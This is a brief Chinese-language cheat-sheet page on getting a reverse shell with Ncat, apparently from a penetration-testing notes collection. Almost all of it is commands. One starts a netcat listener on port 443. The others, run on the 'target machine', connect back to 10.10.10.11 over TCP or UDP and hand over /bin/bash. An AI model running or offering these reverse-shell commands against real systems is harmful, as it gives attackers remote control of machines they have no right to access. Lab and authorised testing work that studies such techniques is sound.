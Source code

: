 # Ncat反弹shell

首先在本地监听TCP协议443端口

```bash
nc -lvp 443

```

然后在靶机上执行如下命令：

```bash
ncat 10.10.10.11 443 -e /bin/bash

```

```bash
ncat --udp 10.10.10.11 443 -e /bin/bash

```

